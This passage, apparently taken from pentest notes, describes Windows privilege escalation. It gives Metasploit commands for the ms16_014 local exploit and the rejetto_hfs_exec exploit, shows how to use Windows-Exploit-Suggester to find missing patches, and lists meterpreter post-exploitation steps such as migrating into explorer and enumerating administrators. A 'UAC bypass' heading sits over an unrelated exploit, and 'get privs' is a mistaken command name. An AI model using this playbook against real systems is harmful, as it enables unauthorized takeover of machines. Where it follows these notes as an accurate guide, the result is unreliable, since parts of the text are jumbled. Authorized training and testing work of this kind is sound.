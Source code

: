 > It will tell the exploit modules that you can try to elevate your privileges.

```msfconsole
use exploit/windows/local/ms16_014_wmi_recv_notif
show options
set SESSION <session-ID>
set LPORT <port-number>
exploit
```

> It can be used to escalate privileges in vulnerable windows 7 machine.

```Shell
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester
```

> This tool compares a target path levels with Microsoft vulnerability database in order to detect missing patches on the target that can be then exploited.

**How to use:**

First get the system info from the meterpreter session by `shell > systeminfo`. Then copy this info in a text file and then pass this as an argument to the tool.

**Step 01:**

```Shell
$ ./windows-exploit-suggester.py --update
[*] initiating...
[*] successfully requested base url
[*] scraped ms download url
[+] writing to file 2014-06-06-mssb.xlsx
[*] done
```

**Step 02:**

```Shell
install python-xlrd, $ pip install xlrd --upgrade
```

**Step 03:**

```Shell
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt
```

#### Bypassing UAC with UACMe:

***UAC STANDS FOR USER ACCOUNT CONTROL***

```shell
use exploit/windows/http/rejetto_hfs_exec
```
> for session

```meterpreter
pgrep explorer
migrate <process-ID>
getuid
shell
net user
net localgroup administrators
get privs
```
